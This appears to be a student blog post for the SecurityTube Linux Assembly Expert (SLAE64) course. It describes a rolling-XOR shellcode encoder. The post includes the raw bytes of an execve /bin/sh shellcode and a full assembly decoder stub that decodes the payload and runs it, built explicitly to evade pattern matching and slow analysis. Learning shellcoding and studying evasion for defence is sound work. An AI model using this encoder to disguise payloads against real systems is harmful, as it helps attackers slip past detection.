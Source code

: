 # Custom Encoder

This assignment was about implementing a custom encoder that encodes a shellcode so that it bypasses pattern matching and keeps the reverse engineers busy for a while.

Many encoders already exist: rotencoder, caesar encoder or xor encoder to name a few.
I decided to implement an encoder that that takes a one byte seed as an argument and xors the first byte with this seed. The result of this operation is then used to xor the next byte and so on.

```
            +-------------+--------------+
            |    byte 1   |    byte 2    |
            +------+------+------+-------+
                   |             |
                   v             v
      Seed      +--+--+       +--+--+
+-------------->+ XOR +-------> XOR +---------->
                +--+--+       +--+--+
                   |             |
                   |             |
            +------v------+------v-------+
            |  Encoded 1  |  Encoded 2   |
            +-------------+--------------+
```

The encoder is implemented in python and can be used like this:
```
python2 Encoder.py -sh "\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05" -k "A"
```

-sh is the original shellcode
-k is the seed

It produces a .asm file that contains the decoding routine and then executes the decoded shellcode.

## Decoder

```
KEY equ 'A'
LEN equ 32
global _start:
section .text

_start:
    jmp _get_pointer ; use call pop technique to get a pointer to the encoded shellcode

_decode:
    pop rdi ; rdi points to encodedshellcode

    push KEY
    pop rsi ; rsi contains the key
    xor rax, rax
    xor rcx, rcx
    cdq ; rax, rcx and rdx are 0

_loop: ; loop over the encoded shellcode and undo the encoding

    cmp rcx, LEN
    jg EncodedShellcode ; if this branch is taken the decoding is done and the shellcode can be executed

    ; decode the respective byte and save the result
    mov al, [rdi]
    xor al, sil
    mov sil, [rdi]
    mov [rdi], al


    inc rdi
    inc rcx
    jmp _loop

_get_pointer:
    call _decode
    EncodedShellcode: db 0x9,0x38,0xf8,0xa8,0xe0,0x5b,0x74,0x16,0x7f,0x11,0x3e,0x11,0x62,0xa,0x59,0x11,0x98,0x7f,0x2f,0x67,0xee,0xc,0x5b,0x13,0x9a,0x7c,0x34,0xb7,0x77,0x4c,0x43,0x46
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification.

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert

Student ID: SLAE64-1581
